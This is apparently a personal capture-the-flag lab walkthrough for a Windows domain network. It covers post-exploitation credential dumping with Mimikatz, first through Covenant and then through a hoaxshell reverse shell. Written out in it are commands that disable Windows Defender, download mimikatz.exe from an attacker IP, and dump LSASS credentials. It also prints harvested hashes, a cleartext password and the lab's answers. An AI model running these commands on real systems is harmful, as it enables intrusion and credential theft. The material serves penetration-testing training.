 Now that we have administrator access to the machine, we can follow our post-exploitation methodology and dump credentials. To aid us in dumping credentials, we will be using the infamous tool Mimikatz. We will also be utilizing Covenant to drop Mimikatz.

![[Task 36 -  That's not a cat that's a dawg-20241014150208220.webp]]

Mimikatz is a well-known tool for a variety of post-exploitation activities. We will be using it to dump credentials from LSASS. [T1003](https://attack.mitre.org/techniques/T1003/001/) From MITRE ATT&CK. Described from ATT&CK as "Adversaries may attempt to access credential material stored in the process memory of the Local Security Authority Subsystem Service (LSASS). After a user logs on, the system generates and stores various credential materials in LSASS process memory. These credential materials can be harvested by an administrative user or SYSTEM and used to conduct Lateral Movement using Use Alternate Authentication Material."  

To run Mimikatz, we can use Covenant to drop the binary. Covenant has a task for Mimikatz; however, it is outdated and does not work on modern Windows systems, so we will need to compile or download our binary to use.  

We can upload a Mimikatz binary using the `Upload` task and obtain a binary from the releases page [https://github.com/gentilkiwi/mimikatz/releases/](https://github.com/gentilkiwi/mimikatz/releases/) or compile the project yourself. Covenant will present you with a pop-up window to drop the file onto, and Covenant will host the file for you and upload the file to the server. Find an example of the window below.

![[Task 36 -  That's not a cat that's a dawg-20241014150423796.webp]]

To ensure a successful upload, you will need to specify where the file is to be uploaded on the target and the file's location on your attacking machine. Find an example of file path syntax below.

![[Task 36 -  That's not a cat that's a dawg-20241014150512569.webp]]

Once the file is uploaded, we can use the `Shell` task to execute the binary. Since Mimikatz has its own CLI, you will need to send all commands to be run within Mimikatz in one command so that Covenant can interpret it.  

---

Now that we have Mimikatz executing on the system, we can look through its modules and syntax. Find an outline of a few Mimikatz modules below.  

- `standard`
- `privilege`
- `crypto`
- `sekurlsa`
- `kerberos`
- `lsadump`
- `vault`
- and more

For this task, we will be focusing on the `privilege`, `token`, and `sekurlsa` modules. Within each of these modules, a number of commands can be used to perform various operations. For more information about all the features of Mimikatz, check out the GitHub wiki, [https://github.com/gentilkiwi/mimikatz/wiki](https://github.com/gentilkiwi/mimikatz/wiki).

The first module we will be looking at is `privilege`, from this module, we will use the `privilege::debug` command. This command will allow us to ensure that Mimikatz is running at the proper privilege levels before performing any operations.

The second module we will be looking at is `token`, from this module, we will use the `token::elevate` command. This command will perform token impersonation to gain elevated integrity on the system. Token elevation is not always necessary but can help to troubleshoot when Mimikatz is struggling to dump credentials.

The third module we will be looking at is `sekurlsa`, this module will contain a majority of the commands to interact with and abuse LSASS. From this module, we will be using the `sekurlsa::logonpasswords`. This command will dump the credentials of accounts already authenticated to the endpoint. We can also use the command `lsadump::lsa`, which has a similar function but will dump LSASS credentials from memory.  

We can put all of these commands together to make a final Mimikatz command that we can use in Covenant. If using this tool normally, you could send each one of these commands separately, but we have to send them a little bit differently because we are using Covenant. Find example syntax below for Mimikatz.  

Syntax: `.\Mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" exit`

It is important that you exit Mimikatz, or your shell task will never complete.

We should now have a working method to dump credentials on the endpoint.


> [!failure]
> Forget all the above because as you've been advised earlier we're not going to use COVENANT.


---

# Your job

## hoaxshell

Hoaxshell is a Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell, based on the following concept:

![[Task 36 -  That's not a cat that's a dawg-20241101160241987.webp]]

More info [here](https://github.com/t3l3machus/hoaxshell).

### Installing hoaxshell on the attacking machine

```

git clone https://github.com/t3l3machus/hoaxshell

cd ./hoaxshell

sudo pip3 install -r requirements.txt

chmod +x hoaxshell.py

```

  
  

> [!tip]
> If you have some trouble witn pip3 you can run


```
  sudo pip3 install -r requirements.txt --break-system-packages
```
  

### Running hoaxshell

```
python3 hoaxshell.py -s <tun0 IP>
```
  
 
![[Task 36 -  That's not a cat that's a dawg-20241101160504921.webp]]

- Go back to the webshell and paste the green code on the field.
- Click on the Execute button.
- You'll get a Reverse Shell on S-SRV01 with high privileges.

	![[Task 36 -  That's not a cat that's a dawg-20241104150300244.webp]]





## Mimikatz


### Uploading

- On the target machine where you have your  mimikatz.exe file open a python Web Sever.
```
- python3 -m http.server 80
```

- On the webshell run the following code:
```
- powershell.exe "Set-MpPreference -DisableRealtimeMonitoring 1"

- powershell.exe Invoke-WebRequest  http://10.50.107.22/mimikatz.exe -outfile  mimikatz.exe
```

### Running

- On the webshell run mimikatz.exe.
```
- .\Mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" exit

```




> [!Success]
> Authentication Id : 0 ; 297294 (00000000:0004894e)
Session           : Interactive from 1
User Name         : watamet
Domain            : HOLOLIVE
Logon Server      : DC-SRV01
Logon Time        : 11/4/2024 8:13:18 PM
SID               : S-1-5-21-471847105-3603022926-1728018720-1132
msv :	
	 [00000003] Primary
	 * Username : watamet
	 * Domain   : HOLOLIVE
	 * NTLM     : d8d41e6cf762a8c77776a1843d4141c9
	 * SHA1     : 7701207008976fdd6c6be9991574e2480853312d
	 * DPAPI    : 300d9ad961f6f680c6904ac6d0f17fd0
	tspkg :	
	wdigest :	
	 * Username : watamet
	 * Domain   : HOLOLIVE
	 * Password : (null)
	kerberos :	
	 * Username : watamet
	 * Domain   : HOLO.LIVE
	 * Password : Nothingtoworry!
	ssp :	
	credman :



> [!question]
> What domain user's credentials can we dump on S-SRV01?
watamet
What is the domain user's password that we can dump on S-SRV01?
Nothingtoworry!


**Next step:** [[Task 37 - Good Intentions, Courtesy of Microsoft - Part II]]


